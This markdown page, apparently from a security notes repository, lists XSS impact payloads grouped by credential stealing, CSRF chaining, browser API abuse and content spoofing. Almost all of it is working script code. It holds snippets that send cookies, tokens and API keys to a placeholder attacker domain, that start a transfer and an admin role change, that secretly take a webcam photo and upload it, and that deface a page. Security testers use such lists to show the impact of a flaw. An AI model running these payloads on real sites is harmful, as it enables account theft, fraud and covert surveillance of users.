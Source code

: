 # XSS (Cross-Site Scripting)

## Table of Contents
- [Credential stealing](#credential-stealing)
- [Chaining with CSRF](#chaining-with-csrf)
- [WEB API abusing](#web-api-abusing)
- [Content Spoofing](#content-spoofing)

## Credential stealing

### Credentials used for authentication (e.g., cookie, access token) can be stolen.

- Cookie stealing
   ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?cookie=${document.cookie}`)
    </script>
   ```
- token stealing
    ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?token=${localStorage.getItem("token")}`)
    </script>
   ```
- API key stealing
    ```html
    <script>
        fetch('/myinfo')
        .then(response => response.json())
        .then(data => {
            return fetch(`https://[ATTACKER-DOMAIN]/?api_key=${data.api_key}`)
        })
    </script>
    ```

## Chaining with CSRF

### It can create a greater risk when combined with vulnerabilities like CSRF. (The impact may vary depending on the purpose or function of the service.)

- Making a transfer
    ```html
    <script>
        initiateTransaction("attacker_account",1000)
    </script>
   ```

- Privilege escalation
    ```html
    <script>
    fetch('https://[ATTACKER-DOMAIN]/change-role', {
        method: 'POST',
        body: "user_id=1234&role=admin"
    })
    </script>
   ```

## WEB API abusing

### Web browser-provided APIs can be exploited to access OS features. (e.g., Media Stream API, Clipboard API, etc.).

- Camera access
    ```html
    <script>
    document.addEventListener('DOMContentLoaded', async () => {
        const v = document.createElement('video');
        v.autoplay = true;
        v.style.display = 'none';
        document.body.appendChild(v);

        const c = document.createElement('canvas');
        c.style.display = 'none';
        document.body.appendChild(c);

        const s = await navigator.mediaDevices.getUserMedia({ video: true });
        v.srcObject = s;

        setTimeout(() => {
        const ctx = c.getContext('2d');
        c.width = v.videoWidth;
        c.height = v.videoHeight;
        ctx.drawImage(v, 0, 0);

        c.toBlob(b => {
            const f = new FormData();
            f.append('image', b, 'photo.png');
            fetch('http://[]/', { method: 'POST', body: f });
        }, 'image/png');
        }, 1000);
    });
    </script>
    ```

## Content Spoofing

### Elements of the page can be modified through DOM manipulation.

- Defacement

   ```html
   <script>
   document.body.innerHTML = `
     <div style="position:fixed; top:0; left:0; width:100%; height:100%; background-color:black; display:flex; align-items:center; justify-content:center; color:red; font-size:3em; font-family:sans-serif; z-index:10000;">
       You've been hacked
     </div>
   `;
   </script>
   ```
